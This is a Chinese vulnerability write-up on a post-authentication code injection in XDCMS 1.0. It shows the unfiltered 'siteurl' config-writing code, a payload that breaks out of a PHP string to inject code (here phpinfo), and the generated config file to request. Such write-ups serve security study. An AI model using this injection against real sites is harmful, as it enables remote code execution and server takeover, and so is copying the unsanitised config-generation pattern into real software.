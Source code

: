 XDCMS 1.0 后台配置文件getshell
==============================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

![](./resource/XDCMS1.0后台配置文件getshell/media/rId24.png)

刚看到这里的时候，这里的网站地址:`http://127.0.0.5`我很好奇是干嘛的，因为它现在写的是127.0.0.5而网站的ip与这个无关，去翻翻源码看看这玩意是干嘛的

    if($tag=='config'){
        //判断url是否以/结尾
        $urlnum=strlen($info['siteurl'])-1;
        if(substr($info['siteurl'],$urlnum,1)!="/"){
            showmsg(C("update_url_error"),"-1");
        }//end

        $cms=SYS_PATH.'xdcms.inc.php';   //生成xdcms配置文件
        $cmsurl="<?phpn define('CMS_URL','".$info['siteurl']."');n define('TP_FOLDER','".$info['template']."');n define('TP_CACHE',".$info['caching'].");n?>";
        creat_inc($cms,$cmsurl);

点击保存后，网站获取siteurl没有经过过滤，就拼接到cmsurl字符串变量里去了，然后根据这个cmsurl生成配置文件

配置文件：

    <?php
     define('CMS_URL','http://127.0.0.5/');
     define('TP_FOLDER','dccms');
     define('TP_CACHE',false);
    ?>

这里我们可以构造siteurl：

    hello');?><?php phpinfo();?>

点击保存后，我们去查看一下该配置文件：

    <?php
     define('CMS_URL','hello');?><?php phpinfo();?>';
     define('TP_FOLDER','dccms');
     define('TP_CACHE',false);
    ?>

这里的配置文件内容生成外部参数可控，导致了可直接getshell

访问该配置文件页面：`http://www.0-sec.org/system/xdcms.inc.php`

![](./resource/XDCMS1.0后台配置文件getshell/media/rId25.png)
